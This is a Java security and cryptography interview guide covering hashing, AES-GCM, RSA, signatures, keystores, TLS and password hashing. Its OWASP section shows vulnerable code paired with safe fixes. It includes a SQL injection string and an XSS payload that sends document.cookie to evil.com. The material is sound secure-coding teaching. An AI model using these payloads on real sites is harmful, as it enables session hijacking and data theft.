

# Java Security and Cryptography

Java ships with a battle-tested security framework built into the platform. From hashing passwords to encrypting data in transit, the `java.security` and `javax.crypto` packages give you everything you need without third-party libraries. This is a **high-value interview topic** -- senior engineers are expected to understand encryption modes, key management, and secure coding practices.

---

## Java Security Architecture Overview

Java security is built on multiple layers that work together to protect applications at every level.



| Layer | Package | Purpose |
|---|---|---|
| **JCA** (Java Cryptography Architecture) | `java.security` | Provider framework, message digests, signatures, key generation |
| **JCE** (Java Cryptography Extension) | `javax.crypto` | Symmetric/asymmetric encryption, MACs, key agreement |
| **JSSE** (Java Secure Socket Extension) | `javax.net.ssl` | TLS/SSL sockets, HTTPS connections |
| **JAAS** (Java Authentication & Authorization) | `javax.security.auth` | Pluggable login modules, subject-based authorization |

### Provider Architecture

JCA uses a **provider-based architecture**. Algorithms are requested by name, and the installed providers supply the implementation.

```java
// List all installed security providers
for (Provider provider : Security.getProviders()) {
    System.out.println(provider.getName() + " v" + provider.getVersion());
}
// Output: SUN v17, SunRsaSign v17, SunJSSE v17, SunJCE v17, ...

// Request a specific algorithm — the framework finds the right provider
MessageDigest md = MessageDigest.getInstance("SHA-256"); // SUN provider
Cipher cipher = Cipher.getInstance("AES/GCM/NoPadding");  // SunJCE provider
```

---

## MessageDigest -- Hashing

A **hash** is a one-way function that produces a fixed-size fingerprint of arbitrary data. Hashes are deterministic, irreversible, and collision-resistant.

```java
import java.security.MessageDigest;
import java.util.HexFormat;

public class HashingExample {

    public static String hash(String input, String algorithm) throws Exception {
        MessageDigest digest = MessageDigest.getInstance(algorithm);
        byte[] hashBytes = digest.digest(input.getBytes("UTF-8"));
        return HexFormat.of().formatHex(hashBytes);
    }

    public static void main(String[] args) throws Exception {
        String data = "Hello, Security!";

        System.out.println("MD5:     " + hash(data, "MD5"));       // 128-bit — BROKEN, never use for security
        System.out.println("SHA-256: " + hash(data, "SHA-256"));   // 256-bit — standard choice
        System.out.println("SHA-512: " + hash(data, "SHA-512"));   // 512-bit — extra strength
    }
}
```

!!! warning "MD5 and SHA-1 are broken"
    Both MD5 and SHA-1 have known collision attacks. **Never use them for security purposes** (password hashing, integrity verification, signatures). They are acceptable only for non-security checksums (e.g., dedup detection).

---

## Symmetric Encryption -- AES

Symmetric encryption uses **one key** for both encryption and decryption. AES (Advanced Encryption Standard) is the industry standard.

### AES Modes Compared

| Mode | IV Needed | Auth Tag | Parallelizable | Use Case |
|---|---|---|---|---|
| **ECB** | No | No | Yes | Never use -- leaks patterns |
| **CBC** | Yes | No | Decrypt only | Legacy systems, needs HMAC for integrity |
| **GCM** | Yes | Yes | Yes | **Recommended** -- authenticated encryption |

!!! danger "Never use ECB mode"
    ECB encrypts each block independently, so identical plaintext blocks produce identical ciphertext blocks. This leaks data patterns. The classic example is the "ECB penguin" -- encrypting an image in ECB mode reveals the original image outline.

### AES-GCM (Recommended)

```java
import javax.crypto.*; import javax.crypto.spec.GCMParameterSpec;
import java.security.SecureRandom;

public class AesGcmExample {
    private static final int GCM_TAG_BITS = 128;
    private static final int GCM_IV_BYTES = 12; // 96 bits recommended for GCM

    public static byte[] encrypt(byte[] plaintext, SecretKey key, byte[] iv) throws Exception {
        Cipher cipher = Cipher.getInstance("AES/GCM/NoPadding");
        cipher.init(Cipher.ENCRYPT_MODE, key, new GCMParameterSpec(GCM_TAG_BITS, iv));
        return cipher.doFinal(plaintext);  // ciphertext + auth tag appended
    }

    public static byte[] decrypt(byte[] ciphertext, SecretKey key, byte[] iv) throws Exception {
        Cipher cipher = Cipher.getInstance("AES/GCM/NoPadding");
        cipher.init(Cipher.DECRYPT_MODE, key, new GCMParameterSpec(GCM_TAG_BITS, iv));
        return cipher.doFinal(ciphertext);  // throws AEADBadTagException if tampered
    }

    public static void main(String[] args) throws Exception {
        KeyGenerator keyGen = KeyGenerator.getInstance("AES");
        keyGen.init(256);
        SecretKey key = keyGen.generateKey();

        byte[] iv = new byte[GCM_IV_BYTES];
        SecureRandom.getInstanceStrong().nextBytes(iv); // NEVER reuse IV with same key

        byte[] encrypted = encrypt("Sensitive data".getBytes("UTF-8"), key, iv);
        byte[] decrypted = decrypt(encrypted, key, iv);
        System.out.println(new String(decrypted, "UTF-8")); // "Sensitive data"
    }
}
```

!!! tip "GCM IV rules"
    - Use **exactly 12 bytes** (96 bits) for the IV -- other sizes trigger extra computation and reduce security.
    - **Never reuse** an IV with the same key. Use `SecureRandom` or a counter.
    - Store the IV alongside the ciphertext (it is not secret).

---

## Asymmetric Encryption -- RSA

Asymmetric encryption uses a **key pair**: a public key (encrypt / verify) and a private key (decrypt / sign). RSA is the most widely used algorithm.

```java
import javax.crypto.Cipher;
import java.security.*;

public class RsaExample {
    public static void main(String[] args) throws Exception {
        KeyPairGenerator keyPairGen = KeyPairGenerator.getInstance("RSA");
        keyPairGen.initialize(2048, SecureRandom.getInstanceStrong());
        KeyPair keyPair = keyPairGen.generateKeyPair();

        // Encrypt with public key
        Cipher cipher = Cipher.getInstance("RSA/ECB/OAEPWithSHA-256AndMGF1Padding");
        cipher.init(Cipher.ENCRYPT_MODE, keyPair.getPublic());
        byte[] encrypted = cipher.doFinal("Secret message".getBytes("UTF-8"));

        // Decrypt with private key
        cipher.init(Cipher.DECRYPT_MODE, keyPair.getPrivate());
        byte[] decrypted = cipher.doFinal(encrypted);
        System.out.println(new String(decrypted, "UTF-8")); // "Secret message"
    }
}
```

!!! info "RSA key sizes"
    - **2048 bits** -- minimum for production use today.
    - **4096 bits** -- recommended for long-term security.
    - RSA is slow -- in practice, use RSA to encrypt a symmetric AES key, then use AES for the actual data (this is called **hybrid encryption** and is what TLS does).

---

## Digital Signatures

A digital signature proves **authenticity** (who sent it) and **integrity** (data was not tampered with). The sender signs with their private key; the receiver verifies with the sender's public key.

```java
import java.security.*;

public class DigitalSignatureExample {

    public static void main(String[] args) throws Exception {
        KeyPairGenerator keyGen = KeyPairGenerator.getInstance("RSA");
        keyGen.initialize(2048);
        KeyPair keyPair = keyGen.generateKeyPair();

        byte[] data = "Contract: I agree to the terms.".getBytes("UTF-8");

        // Sign
        Signature signer = Signature.getInstance("SHA256withRSA");
        signer.initSign(keyPair.getPrivate());
        signer.update(data);
        byte[] signature = signer.sign();

        // Verify
        Signature verifier = Signature.getInstance("SHA256withRSA");
        verifier.initVerify(keyPair.getPublic());
        verifier.update(data);

        boolean isValid = verifier.verify(signature);
        System.out.println("Signature valid: " + isValid); // true
    }
}
```

---

## KeyStore and TrustStore

A **KeyStore** holds your private keys and certificates (your identity). A **TrustStore** holds trusted CA certificates (who you trust). Both use the same `KeyStore` class but serve different purposes.

| | KeyStore | TrustStore |
|---|---|---|
| **Contains** | Private keys + certificates | Trusted CA certificates |
| **Purpose** | Prove your identity | Verify others' identity |
| **JVM property** | `javax.net.ssl.keyStore` | `javax.net.ssl.trustStore` |
| **Default** | None | `$JAVA_HOME/lib/security/cacerts` |

```java
import java.security.KeyStore;
import java.io.FileInputStream;

public class KeyStoreExample {
    public static void main(String[] args) throws Exception {
        KeyStore ks = KeyStore.getInstance("PKCS12");
        try (var fis = new FileInputStream("myapp.p12")) {
            ks.load(fis, "keystorePassword".toCharArray());
        }

        // List all entries
        var aliases = ks.aliases();
        while (aliases.hasMoreElements()) {
            String alias = aliases.nextElement();
            System.out.println(alias + " -> " + (ks.isKeyEntry(alias) ? "Key" : "Certificate"));
        }

        // Retrieve a private key
        PrivateKey pk = (PrivateKey) ks.getKey("myAlias", "keyPassword".toCharArray());
    }
}
```

!!! tip "PKCS12 vs JKS"
    **PKCS12** (`.p12`) is the default since Java 9 and is an industry standard. **JKS** is Java-specific and considered legacy. Always use PKCS12 for new projects.

---

## SecureRandom

`SecureRandom` is a cryptographically strong random number generator. **Never use `java.util.Random` for security** -- it is predictable.

```java
SecureRandom random = new SecureRandom();             // good for most use cases
SecureRandom strong = SecureRandom.getInstanceStrong(); // strongest, may block if entropy low

byte[] key = new byte[32]; // 256-bit key
random.nextBytes(key);

byte[] token = new byte[32]; // session token
random.nextBytes(token);
String sessionId = HexFormat.of().formatHex(token);
```

!!! warning "`Random` vs `SecureRandom`"
    `java.util.Random` uses a linear congruential generator -- if an attacker knows a few outputs, they can predict **all future outputs**. `SecureRandom` uses OS-level entropy (`/dev/urandom` on Linux) and is unpredictable.

---

## Certificate Handling -- X.509

X.509 certificates are the standard for TLS/SSL. Java provides full support for loading, parsing, and validating certificate chains.

```java
import java.security.cert.CertificateFactory;
import java.security.cert.X509Certificate;
import java.io.FileInputStream;

public class CertificateExample {

    public static void main(String[] args) throws Exception {
        CertificateFactory cf = CertificateFactory.getInstance("X.509");

        try (FileInputStream fis = new FileInputStream("server.crt")) {
            X509Certificate cert = (X509Certificate) cf.generateCertificate(fis);

            System.out.println("Subject: " + cert.getSubjectX500Principal());
            System.out.println("Issuer:  " + cert.getIssuerX500Principal());
            System.out.println("Valid:   " + cert.getNotBefore() + " to " + cert.getNotAfter());
            System.out.println("SigAlg:  " + cert.getSigAlgName());

            // Validate expiry
            cert.checkValidity(); // throws CertificateExpiredException if expired
        }
    }
}
```

---

## HTTPS/SSL Programmatic Configuration

When you need custom TLS settings (mutual TLS, certificate pinning, or trusting a self-signed cert in dev), configure `SSLContext` programmatically.

```java
import javax.net.ssl.*;
import java.security.KeyStore;
import java.io.FileInputStream;
import java.net.http.*;
import java.net.URI;

public class HttpsClientExample {

    public static SSLContext createSSLContext() throws Exception {
        KeyStore trustStore = KeyStore.getInstance("PKCS12");
        try (var fis = new FileInputStream("truststore.p12")) {
            trustStore.load(fis, "truststorePass".toCharArray());
        }
        KeyStore keyStore = KeyStore.getInstance("PKCS12");
        try (var fis = new FileInputStream("client.p12")) {
            keyStore.load(fis, "clientPass".toCharArray());
        }

        KeyManagerFactory kmf = KeyManagerFactory.getInstance(KeyManagerFactory.getDefaultAlgorithm());
        kmf.init(keyStore, "clientPass".toCharArray());

        TrustManagerFactory tmf = TrustManagerFactory.getInstance(TrustManagerFactory.getDefaultAlgorithm());
        tmf.init(trustStore);

        SSLContext ctx = SSLContext.getInstance("TLSv1.3");
        ctx.init(kmf.getKeyManagers(), tmf.getTrustManagers(), null);
        return ctx;
    }

    public static void main(String[] args) throws Exception {
        HttpClient client = HttpClient.newBuilder()
            .sslContext(createSSLContext())
            .build();

        HttpResponse<String> response = client.send(
            HttpRequest.newBuilder().uri(URI.create("https://secure-api.example.com/data")).build(),
            HttpResponse.BodyHandlers.ofString());

        System.out.println(response.statusCode() + ": " + response.body());
    }
}
```

!!! danger "Never disable certificate validation in production"
    Replacing `TrustManager` with one that accepts all certificates (`X509TrustManager` that returns empty arrays) is a common hack in dev. **This defeats the entire purpose of TLS** and opens you to man-in-the-middle attacks. Use proper certificates even in staging environments.

---

## Password Hashing

Passwords must **never** be stored in plaintext or encrypted (encryption is reversible). Use a **slow, salted hash** designed specifically for passwords.

### PBKDF2 (Built into Java)

```java
import javax.crypto.SecretKeyFactory;
import javax.crypto.spec.PBEKeySpec;
import java.security.*;
import java.util.Base64;

public class PasswordHasher {
    private static final int ITERATIONS = 600_000; // OWASP 2023 recommendation
    private static final int KEY_LENGTH = 256;     // bits
    private static final int SALT_LENGTH = 16;     // bytes

    public static String hashPassword(String password) throws Exception {
        byte[] salt = new byte[SALT_LENGTH];
        SecureRandom.getInstanceStrong().nextBytes(salt);

        PBEKeySpec spec = new PBEKeySpec(password.toCharArray(), salt, ITERATIONS, KEY_LENGTH);
        byte[] hash = SecretKeyFactory.getInstance("PBKDF2WithHmacSHA256")
            .generateSecret(spec).getEncoded();
        spec.clearPassword(); // clear sensitive data from memory

        return Base64.getEncoder().encodeToString(salt) + ":"
             + Base64.getEncoder().encodeToString(hash);
    }

    public static boolean verifyPassword(String password, String stored) throws Exception {
        String[] parts = stored.split(":");
        byte[] salt = Base64.getDecoder().decode(parts[0]);
        byte[] expectedHash = Base64.getDecoder().decode(parts[1]);

        PBEKeySpec spec = new PBEKeySpec(password.toCharArray(), salt, ITERATIONS, KEY_LENGTH);
        byte[] actualHash = SecretKeyFactory.getInstance("PBKDF2WithHmacSHA256")
            .generateSecret(spec).getEncoded();
        spec.clearPassword();

        return MessageDigest.isEqual(expectedHash, actualHash); // constant-time comparison
    }
}
```

### bcrypt / scrypt / Argon2

| Algorithm | Built into Java | Memory-hard | Recommended |
|---|---|---|---|
| **PBKDF2** | Yes | No | Good (use 600k+ iterations) |
| **bcrypt** | No (use jBCrypt or Spring Security) | No | Good (work factor 12+) |
| **scrypt** | No (Bouncy Castle) | Yes | Better |
| **Argon2** | No (Bouncy Castle / argon2-jvm) | Yes | **Best** (winner of PHC) |

!!! tip "Why slow hashing matters"
    A fast hash like SHA-256 can be computed **billions of times per second** on a GPU. PBKDF2 with 600k iterations, bcrypt, and Argon2 are deliberately slow -- each attempt takes ~100ms, making brute-force attacks impractical.

---

## Java Security Manager (Deprecated)

The `SecurityManager` was deprecated in Java 17 and removed for future deletion. It enforced policy-based access control at runtime, but it was complex, widely bypassed, and had minimal real-world adoption. Interviewers still ask about it.

```java
// Setting a Security Manager (pre-Java 17)
System.setSecurityManager(new SecurityManager());

// Checking permissions programmatically
SecurityManager sm = System.getSecurityManager();
if (sm != null) {
    sm.checkRead("/etc/passwd");  // throws SecurityException if denied
}

// Policy file (java.policy) granted permissions per codebase:
// grant codeBase "file:/app/lib/*" {
//     permission java.io.FilePermission "/tmp/*", "read,write";
//     permission java.net.SocketPermission "api.example.com:443", "connect";
// };
```

!!! info "Why it was deprecated"
    - Performance overhead on every privileged operation.
    - Difficult to write correct policies (deny-by-default is hard to get right).
    - Modern alternatives: containers (Docker), OS-level sandboxing (SELinux, AppArmor), and modular access control (JPMS `module-info.java` with `exports`/`opens`).

---

## Common Vulnerabilities in Java Code (OWASP)

Understanding common security pitfalls is critical for senior-level interviews. These map to the OWASP Top 10.

### 1. SQL Injection

```java
// VULNERABLE -- string concatenation
String query = "SELECT * FROM users WHERE name = '" + userInput + "'";
Statement stmt = conn.createStatement();
stmt.executeQuery(query);  // attacker sends: ' OR '1'='1

// SAFE -- parameterized query
PreparedStatement ps = conn.prepareStatement("SELECT * FROM users WHERE name = ?");
ps.setString(1, userInput);  // input is escaped automatically
ResultSet rs = ps.executeQuery();
```

### 2. XSS (Cross-Site Scripting)

```java
// VULNERABLE -- raw user input in HTML
response.getWriter().write("<p>Hello, " + userName + "</p>");
// attacker sends: <script>document.location='http://evil.com?c='+document.cookie</script>

// SAFE -- encode output
import org.owasp.encoder.Encode;
response.getWriter().write("<p>Hello, " + Encode.forHtml(userName) + "</p>");
```

### 3. Insecure Deserialization

```java
// VULNERABLE -- deserializing untrusted data
ObjectInputStream ois = new ObjectInputStream(untrustedStream);
Object obj = ois.readObject();  // can trigger arbitrary code execution

// SAFE -- use an ObjectInputFilter (Java 9+)
ObjectInputFilter filter = ObjectInputFilter.Config.createFilter(
    "com.myapp.dto.*;!*"  // only allow specific classes
);
ois.setObjectInputFilter(filter);
```

### 4. Sensitive Data Exposure

```java
// BAD -- logging sensitive data
logger.info("User login: password=" + password);

// BAD -- storing secrets as String (remains in string pool)
String secret = "my-api-key";

// GOOD -- use char[] and clear after use
char[] password = getPassword();
try {
    authenticate(password);
} finally {
    Arrays.fill(password, '\0');  // wipe from memory
}
```

---

## Secure Coding Practices

A checklist of security practices every Java developer should follow:

| Practice | Why |
|---|---|
| Use `PreparedStatement` for all SQL | Prevents SQL injection |
| Validate and sanitize all input | Defense in depth against injection |
| Use `char[]` for passwords, not `String` | Strings are immutable and pooled -- can't be wiped |
| Use `MessageDigest.isEqual()` for hash comparison | Constant-time comparison prevents timing attacks |
| Never log secrets, tokens, or passwords | Logs are stored in plaintext and widely accessible |
| Use `SecureRandom`, never `Random` | `Random` is predictable |
| Set `HttpOnly` + `Secure` flags on cookies | Prevents JS access and ensures HTTPS-only |
| Pin TLS to v1.2+ | Older protocols have known vulnerabilities |
| Use OWASP dependency-check in CI | Detects known CVEs in your dependencies |

---

## Interview Questions

??? question "1. What is the difference between JCA and JCE?"
    **JCA** (Java Cryptography Architecture) is the core framework in `java.security` that provides the provider architecture, message digests, digital signatures, and key generation. **JCE** (Java Cryptography Extension) is in `javax.crypto` and adds symmetric/asymmetric encryption (`Cipher`), MACs, and key agreement protocols. JCA defines the framework; JCE extends it with encryption capabilities. Historically JCE was separate due to US export restrictions on strong cryptography, but since Java 9 it ships with unlimited strength by default.

??? question "2. Why should you never use ECB mode for AES encryption?"
    ECB (Electronic Codebook) encrypts each 16-byte block independently with the same key. Identical plaintext blocks produce identical ciphertext blocks, which **leaks patterns** in the data. An attacker can see repetition, rearrange blocks, and infer structure. Use **AES-GCM** instead -- it provides both confidentiality and integrity (authenticated encryption), uses an IV to ensure different ciphertext for the same plaintext, and detects tampering via the authentication tag.

??? question "3. How do you securely store passwords in a Java application?"
    Never store passwords in plaintext or using reversible encryption. Use a **slow, salted, memory-hard hash**: Argon2 (best), bcrypt, scrypt, or PBKDF2 with at least 600,000 iterations. Store the salt alongside the hash. Use `char[]` instead of `String` for in-memory password handling and clear it after use. For verification, hash the input with the same salt and use `MessageDigest.isEqual()` for constant-time comparison to prevent timing attacks.

??? question "4. What is the difference between a KeyStore and a TrustStore?"
    Both use the `KeyStore` class, but serve opposite roles. A **KeyStore** holds your private keys and their associated certificate chains -- it proves your identity to others (used by the server in TLS). A **TrustStore** holds trusted CA certificates -- it determines which remote certificates you trust (used by the client in TLS). The JVM ships with a default truststore at `$JAVA_HOME/lib/security/cacerts`. In mutual TLS (mTLS), both sides need both a keystore and a truststore.

??? question "5. How does AES-GCM provide authenticated encryption, and why does it matter?"
    AES-GCM combines the Counter (CTR) mode of AES for encryption with GHASH for authentication. It produces both a ciphertext and a 128-bit **authentication tag**. On decryption, if the ciphertext or associated data has been tampered with, GCM throws `AEADBadTagException` before returning any plaintext. This matters because encryption alone (CBC mode) only provides confidentiality -- an attacker can flip bits in the ciphertext to manipulate the decrypted plaintext without detection. GCM prevents this by combining encryption + integrity in a single pass.

??? question "6. What is insecure deserialization, and how do you prevent it in Java?"
    Java's `ObjectInputStream.readObject()` can instantiate arbitrary classes and invoke their constructors, `readObject()`, and `finalize()` methods. An attacker can craft a malicious serialized payload that chains "gadget" classes (from libraries like Apache Commons Collections) to achieve **remote code execution**. Prevention: (1) Never deserialize untrusted data, (2) Use `ObjectInputFilter` (Java 9+) to whitelist allowed classes, (3) Prefer JSON/Protobuf over Java serialization, (4) Use `serialVersionUID` and implement `readObject()` with validation, (5) Remove unused gadget libraries from the classpath.

??? question "7. Why should you use `char[]` instead of `String` for passwords?"
    `String` objects are **immutable** and stored in the JVM string pool. Once a password is stored as a `String`, it remains in heap memory until garbage collected -- you cannot control when that happens, and memory dumps or heap analysis can expose it. With `char[]`, you can **explicitly zero out** the contents (`Arrays.fill(password, '\\0')`) immediately after use, minimizing the window of exposure. This is why `Console.readPassword()` and `PBEKeySpec` use `char[]`, not `String`.

??? question "8. Explain how TLS 1.3 handshake works at a high level."
    TLS 1.3 uses a **1-RTT handshake** (down from 2-RTT in TLS 1.2). The client sends a `ClientHello` with supported cipher suites **and** key shares (guessing which key exchange the server will pick). The server responds with `ServerHello`, its key share, and the encrypted certificate + finished message -- all in one round trip. Key exchange uses **ephemeral Diffie-Hellman** only (RSA key exchange was removed). The connection is encrypted from the server's first response onward. TLS 1.3 also supports **0-RTT resumption** for repeat connections (with replay-attack caveats).

??? question "9. What is the Security Manager in Java, and why was it deprecated?"
    The `SecurityManager` was a runtime policy enforcement mechanism that intercepted privileged operations (file I/O, network access, reflection) and checked them against a policy file. It was deprecated in Java 17 because: (1) it was rarely used correctly in practice, (2) the policy model was too complex and brittle, (3) it imposed a performance penalty on every security-sensitive operation, and (4) modern alternatives like containers, OS-level sandboxing, and the Java module system (`module-info.java` with `exports`/`opens`) provide better isolation. Applications should rely on defense-in-depth at the infrastructure level rather than in-process permission checks.

??? question "10. How do you prevent SQL injection in Java?"
    **Always use `PreparedStatement`** with parameterized queries. The JDBC driver sends the query structure and parameters separately to the database, so user input is never interpreted as SQL. Additionally: (1) use an ORM like Hibernate/JPA which parameterizes by default, (2) validate input with allowlists for expected patterns, (3) apply the principle of least privilege to database accounts, (4) use stored procedures where appropriate. Never build SQL strings with concatenation or `String.format()` using user input.
